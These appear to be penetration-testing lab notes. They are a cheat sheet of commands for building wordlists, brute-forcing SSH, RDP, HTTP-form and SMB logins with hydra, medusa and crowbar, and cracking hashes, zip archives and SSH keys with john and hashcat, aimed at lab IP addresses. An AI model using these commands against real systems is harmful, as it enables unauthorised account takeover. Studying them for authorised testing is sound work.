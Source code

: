## Wordlists:
    kali: /usr/share/wordlists
    https://github.com/danielmiessler/SecLists
    Custom Wordlists:
        Website Scraping Example:
          cewl www.megacorpone.com -m 6 -w megacorp-cewl.txt
          edit /etc/john/john.conf, adding rule that mutates our wordlist by adding 2 numbers at the end of each word:   $[0-9]$[0-9]
          john --wordlist=megacorp-cewl.txt --rules --stdout > mutated.txt
        Pattern Example:
          crunch 8 8 -t ,@@^^%%%
          only certain characters:  crunch 4 6 0123456789ABCDEF -o crunch.txt

## Login Brute-Forcing:
        HTTP htaccess attack with Medusa:
            medusa -h 10.11.0.22 -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin
        RDP attack with Crowbar:
            crowbar -b rdp -s 10.11.0.22/32 -u admin -C ~/password-file.txt -n 1
        SSH attack with THC-Hydra:
             hydra -l kali -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1
             With a list:   hydra -L userlist.txt -P passwordlist.txt ssh://10.10.10.184
        HTTP POST attack with THC-Hydra:
            hydra 10.11.0.22 http-form-post "/form/frontpage.php:user=admin&pass=^PASS^:INVALID LOGIN" -l admin -P /usr/share/wordlists/rockyou.txt -f
            hydra 10.10.10.43 https-form-post "/db/index.php:remember=yes&login=Log+In&proc_login=true&password=^PASS^:Incorrect password" -s 443 -P /usr/share/wordlists/rockyou.txt -f
            no username: -l ''
            hydra 10.10.10.184 -l admin -P /usr/share/wordlists/rockyou.txt http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid Password\!" -f
            hydra 10.10.10.184 -l admin -P /usr/share/wordlists/rockyou.txt https-post-form "/index.php:__csrf_magic=sid%3Ad38e7d40800f071201501427269c237c40fa4482%2C1614984752&usernamefld=^USER^&passwordfld=^PASS^&login=Login:Username or Password incorrect" -f
            List:  hydra 10.10.10.191 -l fergus -P passwordlist.txt http-post-form "/admin/login:username=^USER^&password=^PASS^&save=:Username or password incorrect" -f
            CSRF token means probably won't work
        HTTP Authentication:
            hydra 10.10.10.10 -l username -P /usr/share/wordlists/rockyou.txt http-get -s 34226
     
	If other options fail but you have usernames, spray for passwords:
		cewl http://example.com/index.htm --with-numbers > wordlist
		hydra -L users -P wordlist 10.10.10.193 smb
		then try to login w/ creds:  smbclient -U username -L \\\\10.10.10.193
			If Password Must Change error: change it with:  smbpasswd -r 10.10.10.193 username
				If it reverts/resets quickly, use one-liner to run commands:  if echo "$pass" | smbclient -L //10.10.10.193 -U username 2>/dev/null >/dev/null; then echo "Password $pass still good"; else pass=$(date +%s | md5sum | base64 | head -c7; echo .); (echo '<Hostname>'; echo "$pass"; echo "$pass";) | smbpasswd -r 10.10.10.193 -s username; echo "password reset to $pass"; fi; [command here]
		Then enumerate smb and rpc using creds
     
     
## Password Cracking:  
	  hash-identifier
	  $5$ sha256, 
	  gunzip /usr/share/wordlists/rockyou.txt
	  Online:  https://crackstation.net/
	  John the Ripper:
		    john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=NT
		    With rules:   john --rules --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=NT
		    Show formats:  john --list=formats
		    View results:  john hash.txt --show
	  Hashcat (GPU-based):
	      Modes: 3200 bcrypt, 7400 sha256,
	      hashcat -m 1000 -a 0 --force --show --username hash.txt wordlist1.lst
	      hashcat -a 0 -m 13100 hash /usr/share/wordlists/rockyou.txt
	      .\hashcat.exe -m 3200 -a 3 hashes.txt 'SKY-TEST-?d?d?d?d' --- known format, brute force mode
	      Rule Example:
		  password is some variation of PleaseSubscribe!
		  echo -n "PleaseSubscribe\!" > rulefile.txt
		  hashcat -a 0 -m 3200 -r /usr/share/hashcat/rules/best64.rule /root/hash.txt rulefile.txt
	      BEST RULE FILE: /usr/share/hashcat/rules/OneRuleToRuleThemAll.rule
		      hashcat64.exe --force -m300 --status -w3 -o found.txt --remove --potfile-disable -r rules\OneRuleToRuleThemAll.rule hash.txt rockyou.txt
	  Other File Formats:
	    Zip: fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt backup
	      Or: zip2john ...
	    SSH Key: /usr/share/john/ssh2john.py id_rsa > id_rsa.john ;  john id_rsa.john --wordlist=/usr/share/wordlists/rockyou.txt
			  make copy without pw:  openssl rsa -in id_rsa -out id_rsa_nopass
	    keepass2john (.kdbx file)
	    rar2john
	    tar.gz.enc file: netpgp --decrypt devel_backup-2020-09-16.tar.gz.enc --output=/tmp/out.tar.gz ;  tar -xf out.tar.gz  
	    Openssl base64 encoded file:  cat /usr/share/wordlists/rockyou.txt | while read pass; do openssl enc -d -a -AES-256-CBC -in .drupal.txt.enc -k $pass > devnull 2>&1; if [[ $? -eq 0 ]]; then echo "Password: $pass"; exit; fi; done;  

